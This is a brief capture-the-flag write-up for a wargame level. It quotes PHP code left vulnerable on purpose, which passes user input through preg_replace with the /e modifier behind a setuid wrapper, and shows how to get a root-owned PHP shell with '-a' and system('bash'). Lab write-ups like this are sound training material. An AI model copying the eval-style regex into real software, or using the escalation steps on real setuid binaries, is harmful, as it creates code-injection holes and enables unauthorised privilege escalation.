 # username / password

# goals
* There’s a C setuid wrapper for some vulnerable PHP code.
* To do this level, log in as the level09 account with the password level09. Files for this level can be found in /home/flag09.
```
<?php

function spam($email)
{
  $email = preg_replace("/\./", " dot ", $email);
  $email = preg_replace("/@/", " AT ", $email);
  
  return $email;
}

function markup($filename, $use_me)
{
  $contents = file_get_contents($filename);

  $contents = preg_replace("/(\[email (.*)\])/e", "spam(\"\\2\")", $contents);
  $contents = preg_replace("/\[/", "<", $contents);
  $contents = preg_replace("/\]/", ">", $contents);

  return $contents;
}

$output = markup($argv[1], $argv[2]);

print $output;

?>

```
# concept
* inscure PHP code

# method of solve
* when we look at the help output for this SUID binary we see that there's an interactive PHP shell option
```
./flag09 -a
```
* from here we can run OS command with the `system` function
```
system('whoami');
system('bash');
getflag
```
